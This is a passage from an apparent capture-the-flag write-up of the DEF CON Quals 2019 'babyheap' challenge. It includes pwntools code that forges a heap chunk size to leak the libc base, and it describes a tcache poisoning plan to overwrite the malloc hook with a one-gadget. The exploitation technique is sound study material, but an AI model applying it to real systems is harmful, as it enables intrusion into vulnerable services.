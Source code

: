 One slight complication is that the least significant byte in the main arena address is always `\x00`, which prevents the libc address from being printed. I addressed this by overwriting it with a non-null value and fixing it up after the address had been leaked.

```python
malloc(challenge, 0xf8, pwn.cyclic(0x20))
malloc(challenge, 0xf8, pwn.cyclic(0xf8) + "\x81") # Change the chunk size from 0x100 to 0x180.
free(challenge, 0)
null_byte_overwrite = 0x41
payload = pwn.cyclic(0x100) + pwn.p8(null_byte_overwrite) # Overwrite the pesky null byte.
malloc(challenge, 0x178, payload) # Allocate right up to the edge of the main arena address.
raw_leak_data = show(challenge, 0)
leaked_address = pwn.u64(raw_leak_data[-6:] + "\x00\x00") - null_byte_overwrite
libc_base_address = leaked_address - libc.sym["main_arena"] - 0x60
```

## Tcache arbitrary write
The plan is to overwrite the malloc hook with a one gadget address, because we have an easy way to get malloc called and we can calculate the address of the one gadget and the malloc hook.

![onegadget](/images/defconquals19/babyheap/one_gadget.png)

To achieve our arbitrary write, we'll trick glibc into returning the arbitrary address when we call malloc. Tcache makes this really easy, because the bins are just singly linked lists and there are almost no corruption checks (at least in 2.29). We'll free a chunk into the tcache bin, overwrite the next pointer using our strengthened overflow primitive, and after a couple of mallocs, our arbitrary address will be returned.

![tcache overflow](/images/defconquals19/babyheap/tcache_overflow.png)
